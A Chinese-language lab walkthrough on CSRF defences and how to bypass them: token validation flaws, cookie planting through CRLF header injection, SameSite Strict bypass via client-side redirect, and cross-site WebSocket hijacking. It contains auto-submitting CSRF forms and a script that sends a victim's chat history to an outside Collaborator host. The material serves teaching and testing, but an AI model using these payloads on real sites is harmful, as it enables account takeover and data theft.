# 跨站请求伪造近身对抗攻防录 - 先知社区

跨站请求伪造近身对抗攻防录

- - -

## 文章前言

在企业研发的产品安全评估期间，发现全站竟然没有任何关于跨站请求伪造的防御措施，提报了一个全站的jira单上去后架构说在网关一侧有对应的开关为了规避测试人员测试功能故障所以没开，随后让开启进行简单的测试时发现竟然没有进行校验，有和没有基本上都一样，随后再次提报jira单进行整改，而在另一条产品线的客户应急响应中发现产品的跨站请求伪造的插件竟然是在登陆后生成一个固定的Token值，每次请求都一样，虽然不可预测但是未对操作做辨识处理，每次都一样，设计属实有点不合理，而在此过程中对跨站脚本的防护措施以及绕过措施进行了全面的复习与梳理，尤其是对各类Token的绕过何头部参数的构造属实确实Get到了不少Skill，不仅是测试，还是绕过或者防御，最终梳理出此篇文章

## 基本介绍

CSRF(Cross-site request forgery，跨站请求伪造)其实是一种挟持用户在已经登陆的Web应用程序上执行非本意的操作的一种攻击方式，简单来说CSRF就是攻击者盗用了你的身份并以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如:以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等

## 利用条件

跨站请求伪造攻击利用条件：

-   恶意操作：应用程序中存在攻击者需要诱导的操作，可能是一个特权操作(例如：修改其他用户的权限)，也可能是对用户特定数据的任何操作(例如：更改用户自己的密码）
-   会话处理：应用程序执行相关操作时涉及发出一个或多个HTTP请求，应用程序仅仅依靠会话Cookie来识别发出请求的用户，没有其他机制用于跟踪会话或验证用户请求
-   参数预测：应用程序执行操作的请求中不包含攻击者无法确定或猜测其值的任何参数，例如：当使用户更改其密码时，如果攻击者需要知道现有密码的值，则该功能不会受到攻击

假设一个应用程序包含一个让用户更改其帐户电子邮件地址的功能，当用户执行此操作时，他们会发出如下HTTP请求：

```plain
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

这符合跨站请求伪造的要求条件：

-   攻击者对更改用户帐户的电子邮件地址有意图，通过更改电子邮箱攻击者通常能够触发密码重置并完全控制用户帐户
-   应用程序通过使用的会话Cookie来识别当前请求是由哪一个用户所发出的，并没有其他的令牌或机制来跟踪用户会话
-   攻击者可以很清晰明了的确定执行操作所需要的请求参数值，不存在不可预测的随机数请求参数值

攻击者可以构建以下网页：

```plain
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

如果受害用户访问攻击者的网页，那么将会发生以下情况：

-   攻击者的页面将触发对易受攻击网站的HTTP请求
-   如果用户登录到易受攻击的网站，他们的浏览器将自动在请求中包含他们的会话Cookie
-   易受攻击的网站将以正常方式处理请求，将其视为受害用户发出的请求并更改他们的电子邮件地址

## 漏洞示例

靶场地址：[https://portswigger.net/web-security/csrf/lab-no-defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，为了解决该靶场的难题，你需要使用CSRF攻击的HTML来更改查看者的电子邮件地址并将其上传到您的漏洞利用服务器，在演示过程中您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
进入靶场会看到一个更改邮箱的操作界面：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103626-60ca0ebc-b5aa-1.png)  
设置新邮箱并使用burpsuite抓包，然后在burpsuite中生成CSRF载荷  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103651-6fa3ee44-b5aa-1.png)  
生成载荷如下：

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a2600a5038f2056826ca6d300520025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103720-80c899b8-b5aa-1.png)  
访问并主动触发载荷(后续会介绍如何自动触发)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103732-87b49344-b5aa-1.png)  
随后成功更改账户的邮箱地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103809-9e483192-b5aa-1.png)

## CSRF Token

### CSRF Token 1

#### 场景介绍

CSRF Token是由服务器端应用程序生成并与客户端共享的唯一、隐蔽且不可预测的值，当发出执行敏感操作(例如:提交表单)的请求时，客户端必须包含正确的CSRF Token，否则服务器将拒绝执行请求的操作，服务端与客户端共享CSRF令牌的常见方法是将它们作为隐藏参数包含在HTML表单中，例如：

```plain
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

提交此表单会导致以下请求：

```plain
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

备注：由于攻击者无法预测CSRF token的正确值，使得攻击者难以代表受害者构造有效请求，从而可以抵御CSRF攻击

#### 缺陷介绍

部分应用程序在请求使用POST方法时会正确验证token，但是当使用GET方法时会跳过验证，在这种情况下攻击者可以切换到GET方法来绕过验证并进行CSRF攻击

```plain
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

#### 绕过示例

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)  
靶场介绍：此靶场的电子邮件更改功能易受CSRF攻击，虽然它试图阻止CSRF攻击，但只对某些类型的请求采取防御措施，为了解决这个实验你需要使用漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址，您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
进入靶场会出现一个更新邮箱的界面，我们填写邮箱地址并使用burpsuite抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118103951-da818b72-b5aa-1.png)  
此时我们可以看到这个请求报文中包含了一个随机的CSRF参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104004-e2526bc8-b5aa-1.png)  
当我们移除掉csrf之后发现提示必须要有csrf参数，不可或缺

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104015-e94b3540-b5aa-1.png)  
随后我们尝试更改请求方法，从POST改为GET  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104032-f31759f0-b5aa-1.png)  
跟随重定向后可以看到邮箱地址改变  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104049-fd3c0e3a-b5aa-1.png)  
随后我们移除掉CSRF参数再次发送请求数据包，发现出现302回显  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104104-065993fc-b5ab-1.png)  
随后跟随跳转，发现成功更改liuwei@163.com为liuwei2@163.com邮箱地址，说明在GET请求类型下CSRF参数非必须未校验，未校验，未校验哦~  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104121-105c2766-b5ab-1.png)  
随后生成CSRF载荷并通过选项(Options)更改为自动提交  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104152-22fe71f8-b5ab-1.png)  
随后复制上述载荷并在漏洞利用服务器中进行存储  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104204-2a39c3c8-b5ab-1.png)  
然后将其发送给受害者用户实现对邮箱地址的更新并完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104217-318dd6be-b5ab-1.png)

#### CSRF Token 2

##### 缺陷介绍

CSRF Token的验证取决于Token是否存在，当Token存在时，某些应用程序会正确验证Token，但如果Token被忽略，则会跳过验证，在这种情况下攻击者可以删除包含令牌的整个参数(不仅仅是其值)以绕过验证并进行CSRF攻击

```plain
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

#### 绕过示例

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，为了解决这个实验，你需要使用漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址，您可以使用以下凭据登录自己的帐户wiener:peter  
靶场演示：  
进入靶场之后更改邮箱地址并使用burpsuite抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104508-97a8a208-b5ab-1.png)  
随后尝试更改CSRF的值发现提示"Invalid CSRF token"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104525-a1b76018-b5ab-1.png)  
将数值直接移除后发现提示"Missing parameter 'csrf'"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104543-ac6d4bbc-b5ab-1.png)  
随后将整个CSRF参数给移除后发现出现302跳转  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104603-b84fd800-b5ab-1.png)  
跟随跳转之后发现邮箱地址被直接更改  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104621-c31b999a-b5ab-1.png)  
使用burpsuite生成CSRF载荷随后勾选自动提交并重新生成

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a760007041f898a80ee033b00f700f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104653-d64093a4-b5ab-1.png)  
在漏洞利用服务器中托管利用载荷  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104708-df0d1214-b5ab-1.png)  
随后分发载荷给受害者用户完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104719-e5c18f7c-b5ab-1.png)

### CSRF Token 3

#### 缺陷介绍

部分应用程序不会验证Token是否与发出请求的用户属于同一个会话，相反应用程序维护一个它已经发布的全局Token池并接受该池中出现的任何令牌，在这种情况下攻击者可以使用自己的帐户登录应用程序并获取有效的token，然后在CSRF攻击中将该token提供给受害用户

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，它使用token来试图防止CSRF攻击，但它们没有集成到网站的会话处理系统中，为了解决这个实验你需要使用洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址，您在应用程序上有两个帐户，可以用来帮助设计您的攻击

-   wiener:peter
-   carlos:montoya

靶场演示：  
登录账户后更改邮箱地址并使用burpsuite抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104815-0764b4f6-b5ac-1.png)  
随后使用另一个浏览器打开靶场地址并登录另一个账户，同时更改邮箱地址并使用burpsuite抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104849-1b7cc74e-b5ac-1.png)  
随后使用第二个账户的csrf参数值替换第一个账户的csrf参数值并重新发送数据包，可以看到302跳转成功，所以说明这里并没有对session和csrf进行一个匹配的操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104905-252d4fd4-b5ac-1.png)  
跟随302后成功更改邮箱地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118104922-2f5de356-b5ac-1.png)

### CSRF Token 4

#### 缺陷介绍

在上述漏洞的变体中一些应用程序将CSRF token绑定到cookie，但不绑定到用于跟踪会话的同一cookie,当应用程序采用两个不同的框架(一个用于会话处理，一个用于CSRF保护)而这两个框架没有集成在一起时就很容易发生这种情况

```plain
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

这种情况虽然难以利用，但仍然容易受到攻击，如果网站包含任何允许攻击者在受害者的浏览器中设置cookie的行为，那么就有可能发起攻击，攻击者可以使用自己的帐户登录应用程序，获取有效的令牌和相关的cookie，利用cookie设置行为将他们的cookie放入受害者的浏览器中并在CSRF攻击中将他们的令牌提供给受害者

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，它使用token来试图防止CSRF攻击，但它们没有完全集成到网站的会话处理系统中，为了解决这个实验你需要使用您的漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址，您在应用程序上有两个帐户，可以用来帮助设计您的攻击  
wiener:peter  
carlos:montoya  
靶场演示：  
登录靶场并更新邮箱地址，同时使用burpsutie抓包

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105015-4ef2e16c-b5ac-1.png)  
更改session会直接被重定向到/login  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105045-6097a2d6-b5ac-1.png)  
更改csrfKey会提示——"Invalid CSRF token"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105102-6ac4a6a0-b5ac-1.png)  
更改csrf时提示——"Invalid CSRF token"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105138-7febf0a6-b5ac-1.png)  
随后登录第一个账户并更新邮箱地址，同时使用burpsutie抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105152-8887afc0-b5ac-1.png)  
直接使用第二个账户的csrf和csrfkey替换第一个用户数值并重新发包，可以看到302重定向，请求成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105211-942c06e6-b5ac-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105223-9b28cc9a-b5ac-1.png)  
使用第二个账户的csrf替换第一个账户的csrf可以看到依旧提示——"Invalid CSRF token"，由此说明csrf和csrfkey需要适配  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105309-b69acb0e-b5ac-1.png)  
下面我们就得想如何操控一个csrfkey到cookie中去，通过访问web我们发现一个检索位置，可以实现头部注入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105340-c92f6b08-b5ac-1.png)  
接下来我们就需要进行一个构造载荷了，首先我们需要使用第一个账户进行更改邮箱地址，然后抓包获取报文信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105413-dcbcf460-b5ac-1.png)  
使用第二个账户登录并更新其邮箱地址，同时使用burpsutie抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105430-e6aec502-b5ac-1.png)  
这里的第二个账户是我们攻击者自己的账户，第一个账户时受害者账户，随后我们使用Burpsuite构造CSRF载荷  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105445-efda5a88-b5ac-1.png)  
构造完如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105501-f90b3488-b5ac-1.png)  
此时我们需要将CSRF替换为攻击者自己的csrf并借助Burpsuite实现自动提交，但是这里我们还缺少一个csrfkey，所以我们直接将上面的载荷进行更改，使用img标签引入一个新的资源加载并在其中植入csrfkey的头部信息，构造的最终载荷如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105520-04a4476c-b5ad-1.png)  
在漏洞利用服务器上进行托管处理，随后进行分发载荷即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105718-4ab3ce8a-b5ad-1.png)

### CSRF Token 5

#### 缺陷介绍

在上述漏洞的另一个变体中部分应用程序不维护任何已颁发令牌的服务器端记录，而是在cookie和请求参数中复制每个令牌，当验证后续请求时，应用程序只需验证请求参数中提交的令牌是否与cookie中提交的值匹配，这有时被称为针对CSRF的"双重提交"防御，之所以被提倡是因为它易于实现并且不需要任何服务器端状态

```plain
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

在这种情况下如果网站包含任何cookie设置功能，攻击者可以再次执行CSRF攻击，在这里攻击者不需要获得他们自己的有效令牌，他们只需找寻一个令牌，利用cookie设置行为将他们的cookie放入受害者的浏览器中并在CSRF攻击中将他们的令牌提供给受害者

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)  
靶场介绍：本靶场的电子邮件更改功能易受CSRF攻击，它使用了不安全的"双重提交"CSRF预防技术，为了解决这个实验，你需要使用漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址  
靶场演示：  
登录后更改邮箱地址并使用burpsutie抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105808-688c18ea-b5ad-1.png)  
可以看到上面的csrf和csrfKey保持一致，随后将请求发送到repeat模块，发送请求并跟随跳转

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105828-74552a86-b5ad-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105856-858a6e74-b5ad-1.png)  
更改上面的csrf请求报文中的头信息后发现其值会影响响应报文中的csrf

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105911-8e0ec3ba-b5ad-1.png)  
执行搜索操作并使用burpsuite抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105922-94eb686e-b5ad-1.png)  
可以看到这里的搜索结果会影响响应头重的Set-Cookie中的值  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105939-9eb0a706-b5ad-1.png)  
所以我们可以构造如下查询：

```plain
/?search=QWQ%0d%0aSet-Cookie:csrf=aaaaaa
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118105959-ab03f2ba-b5ad-1.png)  
随后在Burpsuite中构造CSRF载荷，随后插入自动提交并进行二次更改通过img标签引入可以更改头部信息的set-cookie字段

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aee00e2039c4b81801cb78c00b500b3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="longfei2234&#64;163&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110040-c355ebca-b5ad-1.png)  
随后在漏洞利用服务器中托管载荷并分发  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110057-cda31526-b5ad-1.png)  
随后完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110111-d584ec7e-b5ad-1.png)

## SameSite

### 基本介绍

SameSite是一种浏览器安全机制，它主要用于确定网站的cookies何时包含在来自其他网站的请求中，SameSite cookie限制为各种跨站点攻击提供了部分保护，包括CSRF、跨站点泄漏和一些CORS漏洞，自2021年起，如果发布Cookie的网站没有明确设置自己的限制级别，Chrome将默认应用宽松的SameSite限制，因此为了彻底测试跨站点攻击媒介，必须牢固掌握这些限制是如何工作的以及如何绕过它们

在SameSite cookie限制的上下文中站点被定义为顶级域(TLD)，通常类似于.com或者.net加上一个额外的域名级别，这通常被称为TLD+1，在确定一个请求是否是同一个站点时，URL schema也会被考虑在内，而这也意味着从[http://app.example.com到https://app.example.com的链接被大多数浏览器视为跨站点链接](http://app.example.xn--comhttps-qw7m//app.example.com%E7%9A%84%E9%93%BE%E6%8E%A5%E8%A2%AB%E5%A4%A7%E5%A4%9A%E6%95%B0%E6%B5%8F%E8%A7%88%E5%99%A8%E8%A7%86%E4%B8%BA%E8%B7%A8%E7%AB%99%E7%82%B9%E9%93%BE%E6%8E%A5)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110132-e236e594-b5ad-1.png)  
site和origin的区别在于它们的范围，一个site包含多个域名，而一个origin仅包含一个域名，如果两个URL是完全相同的schema、domain和port，则认为它们具有相同的来源，这也是我们经常所说的同源策略机制

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110147-eb093a3c-b5ad-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110159-f224b396-b5ad-1.png)

### 工作原理

在引入SameSite机制之前浏览器在每个请求中都向发出请求的域发送cookies，即使该请求是由无关的第三方网站触发的，SameSite的工作原理是使浏览器和网站所有者能够限制哪些跨网站请求，应该包含特定的cookies，这有助于减少用户遭受CSRF攻击的风险，这种攻击会诱使受害者的浏览器发出请求从而在易受攻击的网站上触发有害操作，由于这些请求通常需要与受害者的身份验证会话相关联的cookie，如果浏览器不包含此信息攻击将会失败，目前所有主流浏览器都支持以下相同网站限制级别：

-   Strict
-   Lax
-   None

开发人员可以为他们设置的每个cookie手动配置限制级别，使他们能够更好地控制这些cookie的使用时间，为此他们只需在Set-Cookie响应头中包含SameSite属性以及他们的首选值，例如：

```plain
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```

### 绕过方式1

#### 基本介绍

如果cookie设置了SameSite=Strict属性，那么浏览器将不会在任何跨站点请求中发送它，这意味着如果请求的目标站点与浏览器地址栏中当前显示的站点不匹配，它将不会包含cookie，当设置cookies使持有者能够修改数据或执行其他敏感操作时，建议使用这种方法，尽管这是最安全的选择，但在需要跨站点功能的情况下，它会对用户体验产生负面影响

#### 缺陷介绍

如果cookie设置了SameSite=Strict属性，虽然浏览器不会将其包含在任何跨站点请求中，但是如果我们能找到一个gadget，在同一个站点中产生第二个请求，那么就可以绕过这个限制，其中比较常见的一个gadget是客户端重定向，它使用攻击者可控制的输入(例如:URL参数)动态构建重定向目标，由于客户端重定向根本不是真正的重定向，所以产生的请求被视为普通的独立请求，最重要的是这是一个同一站点的请求，因此将包括与该站点相关的所有cookies，而不考虑现有的任何限制，如果我们可以操纵这个gadget来引发恶意的辅助请求，这将可以使我们完全绕过SameSite cookie限制

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)  
靶场介绍：此靶场的更改电子邮件功能易受CSRF攻击，为了解决这个问题你需要执行一次CSRF攻击，改变受害者的电子邮件地址，您需要使用提供的漏洞利用服务器来托管您的攻击载荷，同时可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
使用账户密码登录并更改邮箱地址，同时使用Burpsuite抓包，可以看到这里不包含任何token防护  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110300-168da24c-b5ae-1.png)  
但是我们在登录的时候其实有一个SameSite=Strict的安全防护设置，如果我们此时可以绕过SameSite cookie限制，那么便可以构造CSRF攻击  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110316-2079f062-b5ae-1.png)  
在浏览器中转到其中一篇博客文章并发表任意评论，注意到您最初被发送到/post/comment/confirmation的确认页面，postId=x，但是几秒钟后你会重新回到博客文章  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110334-2acf3fe0-b5ae-1.png)  
在Burpsuite中我们可以观察到这里存在一次重定向操作，而这个重定向是使用导入的JavaScript文件/resources/js/commentconfirmationredirect.js在客户端处理的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110354-36a877d2-b5ae-1.png)  
在代理的历史记录中右键复制URL：[https://0ad60049035d155180df58ad000a007b.web-security-academy.net/post/comment/confirmation?postId=8，随后在浏览器中访问该URL并将postId参数更改为任意的字符串，此时会看到客户端此时会尝试将我们重定向到包含注入字符串的路径中去——post/aaaaaa](https://0ad60049035d155180df58ad000a007b.web-security-academy.net/post/comment/confirmation?postId=8%EF%BC%8C%E9%9A%8F%E5%90%8E%E5%9C%A8%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E8%AE%BF%E9%97%AE%E8%AF%A5URL%E5%B9%B6%E5%B0%86postId%E5%8F%82%E6%95%B0%E6%9B%B4%E6%94%B9%E4%B8%BA%E4%BB%BB%E6%84%8F%E7%9A%84%E5%AD%97%E7%AC%A6%E4%B8%B2%EF%BC%8C%E6%AD%A4%E6%97%B6%E4%BC%9A%E7%9C%8B%E5%88%B0%E5%AE%A2%E6%88%B7%E7%AB%AF%E6%AD%A4%E6%97%B6%E4%BC%9A%E5%B0%9D%E8%AF%95%E5%B0%86%E6%88%91%E4%BB%AC%E9%87%8D%E5%AE%9A%E5%90%91%E5%88%B0%E5%8C%85%E5%90%AB%E6%B3%A8%E5%85%A5%E5%AD%97%E7%AC%A6%E4%B8%B2%E7%9A%84%E8%B7%AF%E5%BE%84%E4%B8%AD%E5%8E%BB%E2%80%94%E2%80%94post/aaaaaa)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110406-3dd5f7a0-b5ae-1.png)  
随后尝试注入一个路径遍历序列，以便动态构造的重定向URL将指向帐户页面:

```plain
/post/comment/confirmation?postId=1/../../my-account
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110430-4ca6a202-b5ae-1.png)  
可以看到浏览器重定向成功，这也证实了我们可以使用postId参数引发对目标站点上任意端点的GET请求  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110448-572a8324-b5ae-1.png)  
在浏览器中转到漏洞利用服务器并创建一个脚本诱导查看者的浏览器发送刚才测试的GET请求  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110506-61c0138a-b5ae-1.png)  
随后分发请求  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110522-6b8171c0-b5ae-1.png)  
会再次返回我们的账户页面，而这也证实了浏览器在第二个请求中包含了您的已验证会话cookie，即使最初的评论提交请求是从任意外部站点发起的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110538-751d60ae-b5ae-1.png)  
将burpsuite中的跟新用户邮箱地址数据包发送到repeat模块并更改其请求方法，随后发送请求可以看到正常回显302跳转，说明我们的更改使用GET方法也是可以正常请求的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110554-7ea5ed6c-b5ae-1.png)  
返回漏洞利用服务器并更改漏洞利用中的postId参数以便重定向使浏览器发送等效的GET请求来更改您的电子邮件地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110609-8777f246-b5ae-1.png)  
随后发送请求完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110621-8e55f98c-b5ae-1.png)

### 绕过方式2

#### 基本介绍

在测试网站时要记住一个请求即使它是跨源发出的也仍然可以是同一个网站的，还得确保彻底审计了所有可用的攻击面，包括任何子域，特别是使您能够引出任意二级请求的漏洞(例如:XSS)会完全危及基于站点的防御，使站点的所有域暴露于跨站点攻击，除了经典的CSRF之外，也不要忘记如果目标网站支持WebSockets，此功能可能容易受到跨站点WebSocket劫持(CSWSH)的攻击，这本质上只是针对WebSocket握手的CSRF攻击

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)  
靶场介绍：本实验室的实时聊天功能容易受到跨站点WebSocket劫持(CSWSH)的攻击，要解决实验室问题，你需要登录受害者的账户并使用提供的漏洞利用服务器执行CSWSH攻击，将受害者的聊天记录泄露到默认的Burp Collaborator服务器，聊天历史记录包含明文形式的登录凭据  
靶场演示：  
点击Live Chat进入聊天频道  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110659-a4fa7776-b5ae-1.png)  
发送一些消息作为测试  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110709-ab5d95da-b5ae-1.png)  
由于这里并没有任何token，所以我们如果可以绕过任何SameSite cookie限制，则可能容易受到CSWSH的攻击  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110726-b58e350a-b5ae-1.png)  
随后在浏览器中转到漏洞利用服务器并使用以下模板为CSWSH概念验证创建脚本

```plain
<script>
    var ws = new WebSocket('wss://0a5b005b04b58a4785f8ef680011001f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://va9kalmffwrnofty137wjxqy6pch06.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110747-c1e59262-b5ae-1.png)  
随后分发请求给受害者用户并刷新burpsuite中的DNS监听，可以看到又HTTP请求过来  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110803-cb6942a2-b5ae-1.png)  
尽管已经确认了CSWSH漏洞，但只是泄露了一个全新会话的聊天历史记录，并不是特别有用，随后我们转到历史记录中可以看到请求并没有包含cookie  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240118110819-d4f3fe52-b5ae-1.png)  
